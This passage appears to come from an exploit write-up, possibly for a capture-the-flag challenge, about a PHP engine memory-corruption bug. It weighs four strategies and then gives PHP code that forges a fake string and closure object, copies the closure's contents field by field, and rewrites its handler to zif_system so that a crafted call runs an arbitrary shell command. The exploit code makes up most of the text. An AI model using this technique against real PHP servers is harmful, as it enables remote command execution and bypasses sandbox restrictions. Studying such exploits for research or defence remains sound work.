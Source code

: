 1. Fake a string object to build a arbitrary write primitive, but it seems that when writing to string fetched from object field, the engine will copy it first before writing, which means we cannot rewrite the function object directly.
2. Since the length of `$abc` is very big(e.i. an 6-byte address), we can directly use `$abc` to write content in `$closure_obj`. However, this requires `$closure_obj` to be larger that `$abc_addr`, which means the function object must lay behind `$abc` in memory. This is true when we execute the script directly, but when converting exploit into string and executing it using `eval`, this property does not hold.
3. Re-trigger the vulnerability but fill the just-freed string with a function object, but it seems that I cannot achieve this after many trials.
4. Copy the contents inside `$closure_obj` and change the relevant field in the copied fake object. This is the approach used by provided exploit. However, we cannot use `strlen` function to achieve arbitrary memory read, unlike the provided exploit. My approach is to interpret address `$closure_obj` as a PHP string so that we can read contents after `+0x18` offset. As for copying, since the recursion depth and loop are restricted, we just copy and paste the code to achieve the copy. The relevant codes are shown below:

```php
// fake value
write($abc, 0x10, $closure_obj);
write($abc, 0x18, 0x6); 
// fake a string object at $closure_obj

function copyFunc($off)
{
	global $helper;
	global $abc;
	if ($off > 0x110) return;
	write($abc, 0xd0 + 0x18 + $off, str2ptr($helper->a, $off));
	write($abc, 0xd0 + 0x20 + $off, str2ptr($helper->a, $off+8));
	write($abc, 0xd0 + 0x28 + $off, str2ptr($helper->a, $off+0x10));
	write($abc, 0xd0 + 0x30 + $off, str2ptr($helper->a, $off+0x18));
	write($abc, 0xd0 + 0x38 + $off, str2ptr($helper->a, $off+0x20));
	write($abc, 0xd0 + 0x40 + $off, str2ptr($helper->a, $off+0x28));
	write($abc, 0xd0 + 0x48 + $off, str2ptr($helper->a, $off+0x30));
	write($abc, 0xd0 + 0x50 + $off, str2ptr($helper->a, $off+0x38));
	write($abc, 0xd0 + 0x58 + $off, str2ptr($helper->a, $off+0x40));
	write($abc, 0xd0 + 0x60 + $off, str2ptr($helper->a, $off+0x48));
	write($abc, 0xd0 + 0x68 + $off, str2ptr($helper->a, $off+0x50));
	write($abc, 0xd0 + 0x70 + $off, str2ptr($helper->a, $off+0x58));
	write($abc, 0xd0 + 0x78 + $off, str2ptr($helper->a, $off+0x60));
	write($abc, 0xd0 + 0x80 + $off, str2ptr($helper->a, $off+0x68));
	write($abc, 0xd0 + 0x88 + $off, str2ptr($helper->a, $off+0x70));
	write($abc, 0xd0 + 0x90 + $off, str2ptr($helper->a, $off+0x78));
	write($abc, 0xd0 + 0x98 + $off, str2ptr($helper->a, $off+0x80));
	write($abc, 0xd0 + 0xa0 + $off, str2ptr($helper->a, $off+0x88));
	copyFunc($off + 0x90);
} // function to copy the content inside $closure_obj

write($abc, 0xd0, 0x0000031800000002);
write($abc, 0xd0 + 8, 0x0000000000000003);
// write some headers in $closure_obj, 
// which are simply constants from gdb
copyFunc(0); // copy body in $closure_obj

write($abc, 0xd0 + 0x38, 0x0210000000000001);
write($abc, 0xd0 + 0x68, $zif_system);
// rewrite critical fields to make the function `system`
write($abc, 0x20, $abc_addr + 0xd0);
// rewrite pointer of field b to newly faked function object

($helper->b)($cmd);
die("end");
```
